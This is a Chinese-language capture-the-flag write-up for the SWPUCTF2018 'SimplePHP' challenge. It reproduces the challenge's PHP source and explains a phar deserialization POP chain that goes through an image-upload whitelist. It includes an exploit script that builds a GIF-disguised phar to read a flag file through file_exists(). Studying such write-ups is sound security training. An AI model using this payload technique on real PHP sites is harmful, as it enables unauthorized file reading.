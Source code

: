 # \[SWPUCTF2018] SimplePHP

## \[SWPUCTF2018] SimplePHP

## 考点

* 代码审计
* phar反序列化
* pop链构造

## wp

### 源码

打开靶机，在查看文件这里可以看到 url 为 `http://f292dcfd-887b-4ebb-b292-7d78df57cc52.node3.buuoj.cn/file.php?file=` 不难想到文件包含

试试 php://filter/ 发现没有反应，但是直接输入文件名可以读取文件，分别获取 file.php function.php class.php upload\_file.php base.php

{% code title="file.php" %}
```php
<?php 
header("content-type:text/html;charset=utf-8");  
include 'function.php'; 
include 'class.php'; 
ini_set('open_basedir','/var/www/html/'); 
$file = $_GET["file"] ? $_GET['file'] : ""; 
if(empty($file)) { 
    echo "<h2>There is no file to show!<h2/>"; 
} 
$show = new Show(); 
if(file_exists($file)) { 
    $show->source = $file; 
    $show->_show(); 
} else if (!empty($file)){ 
    die('file doesn\'t exists.'); 
} 
```
{% endcode %}

{% code title="function.php" %}
```php
<?php 
include "base.php"; 
header("Content-type: text/html;charset=utf-8"); 
error_reporting(0); 
function upload_file_do() { 
    global $_FILES; 
    $filename = md5($_FILES["file"]["name"].$_SERVER["REMOTE_ADDR"]).".jpg"; 
    //mkdir("upload",0777); 
    if(file_exists("upload/" . $filename)) { 
        unlink($filename); 
    } 
    move_uploaded_file($_FILES["file"]["tmp_name"],"upload/" . $filename); 
    echo '<script type="text/javascript">alert("上传成功!");</script>'; 
} 
function upload_file() { 
    global $_FILES; 
    if(upload_file_check()) { 
        upload_file_do(); 
    } } 
function upload_file_check() { 
    global $_FILES; 
    $allowed_types = array("gif","jpeg","jpg","png"); 
    $temp = explode(".",$_FILES["file"]["name"]); 
    $extension = end($temp); 
    if(empty($extension)) { 
        //echo "<h4>请选择上传的文件:" . "<h4/>"; 
    } 
    else{ 
        if(in_array($extension,$allowed_types)) { 
            return true; 
        } 
        else { 
            echo '<script type="text/javascript">alert("Invalid file!");</script>'; 
            return false; 
        }}} 
```
{% endcode %}

{% code title="class.php" %}
```php
<?php
class C1e4r{
    public $test;
    public $str;
    public function __construct($name){
        $this->str = $name;}
    public function __destruct(){
        $this->test = $this->str;
        echo $this->test;}}
class Show{
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;   //$this->source = phar://phar.jpg
        echo $this->source;}
    public function __toString(){
        $content = $this->str['str']->source;
        return $content;}
    public function __set($key,$value){
        $this->$key = $value;}
    public function _show(){
        if(preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }}
    public function __wakeup(){
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
            }}}
class Test{
    public $file;
    public $params;
    public function __construct(){
        $this->params = array();}
    public function __get($key){
        return $this->get($key);}
    public function get($key){
        if(isset($this->params[$key])) {
            $value = $this->params[$key];
        } else {
            $value = "index.php";}
        return $this->file_get($value);}
    public function file_get($value){
        $text = base64_encode(file_get_contents($value));
        return $text;}}
```
{% endcode %}

{% code title="upload_file.php" %}
```php
<?php 
include 'function.php'; 
upload_file(); 
?>  
```
{% endcode %}

{% code title="base.php" %}
```php
<?php 
    session_start(); 
	echo $_SERVER['REMOTE_ADDR'];
?>  
```
{% endcode %}

### phar反序列化 <a href="#185268911" id="185268911"></a>

拿到源码后进行审计，发现在对上传文件检查( upload\_file\_check )时，采用了白名单的方式

![](../../.gitbook/assets/w4v8cqMe2uHsib5.png)

这样我们能够选择的绕过方式就不多了，可以去考虑 phar ，然后在 file.php 中发现调用了`file_exists()`函数，这给构造 phar 反序列化提供了条件

![](../../.gitbook/assets/W6gNpyT8dCHX1hk.png)

接下来就是读取文件了，在 `Test` 类的 `file_get()` 调用了 `file_get_contents` 获取文件内容，或许这就是突破口。`file_get()` 被调用的前提是 `Test` 类的实例化对象调用了未定义的属性或没有权限访问的属性，即 `__get()` 函数被调用

![](../../.gitbook/assets/pq5UNuDmJQAMWTi.png)

如何让 `Test` 类的 `__get()` 函数被调用，在 `Show` 类的 `__toString()` 方法中，`$this->str['str']->source` 访问了自己的 `source` 变量，这个变量 `Test` 类可没有，所以这就是让 `$this->str['str']` 为 `Test` 类的实例化对象。

![](../../.gitbook/assets/JmPztZ4ST2R6KEA.png)

如何让 `Show` 类的 `__toString()` 方法被调用，可以看到在 `C1e4r` 中的 `__destruct()` 函数调用了 `echo $this->test;` 让 `test` 是 `Show` 类的实例化对象即可

![](../../.gitbook/assets/Zfc3tNgPbqWnuo4.png)

最后是上传的路径，在 `upload_file_do()` 中给出了文件存储位置，实际上可以选择直接访问 /upload 寻找

上传路径为 `/upload/md5(filename+ip+.jpg)`

![](<../../.gitbook/assets/image (1) (1) (2).png>)

flag 的位置在 `Show` 类的 `_show()` 函数也可以看到提示，file.php 页面的注释中也有

要注意的是读取 flag 只能用绝对路径，不能使用相对路径

{% code title="exp.php" %}
```php
<?php
class C1e4r{
    public $test;
    public $str;

}
class Show{
    public $source;
    public $str;
}
class Test{
    public $file;
    public $params;
}
$a = new Test();
$a->params['source'] = "/var/www/html/f1ag.php";
$b = new Show();
$b->str['str'] = $a;
$c = new C1e4r();
$c->str = $b;
$phar = new Phar("1.phar", 0, '1.phar');
$phar->startBuffering();
$phar->addFromString("test.txt", "test");
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($c);
$phar->stopBuffering();
?>
```
{% endcode %}

访问`file.php?file=phar://upload/8adc336297a3d5eb2550edc08aa372a8.jpg`即可
